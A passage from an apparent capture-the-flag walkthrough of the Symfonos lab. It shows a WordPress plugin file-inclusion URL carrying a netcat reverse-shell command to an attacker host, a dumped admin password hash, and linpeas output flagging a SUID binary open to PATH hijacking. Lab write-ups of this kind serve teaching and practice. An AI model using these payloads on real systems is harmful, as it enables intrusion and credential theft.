 ```
250 2.0.0 Ok: queued as CE61240698
quit
221 2.0.0 Bye
Connection closed by foreign host.
```

This fails. So we try to pass something else as a parameter:
`http://10.10.10.11/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios&cmd=nc -e /bin/sh 10.10.10.4 4242`

Which does return a shell, possibly because of the absence of bash or a problem with encoding.

After we upgrade our shell to a python pty pseudo shell we verify we run as "helios":
```
helios@symfonos:/$ id
uid=1000(helios) gid=1000(helios) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
```

## Privilege Escalation

```
MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+-----------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email      | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-----------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$B8GkoAZZA6.9fooDdaL05B0sazTW0P/ | admin         | helios@blah.com |          | 2019-06-29 00:46:01 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+-----------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)
```

linpeas:

```
-rwsr-xr-x 1 root root       8.5K Jun 28  2019 /opt/statuscheck
  --- It looks like /opt/statuscheck is executing curl and you can impersonate it (strings line: curl -I H) (https://tinyurl.com/suidpath)
```


```
helios@symfonos:/opt$ ./statuscheck 
HTTP/1.1 200 OK
Date: Sun, 30 May 2021 19:31:23 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT
ETag: "148-58c6b9bb3bc5b"
Accept-Ranges: bytes
Content-Length: 328
Vary: Accept-Encoding
Content-Type: text/html
```

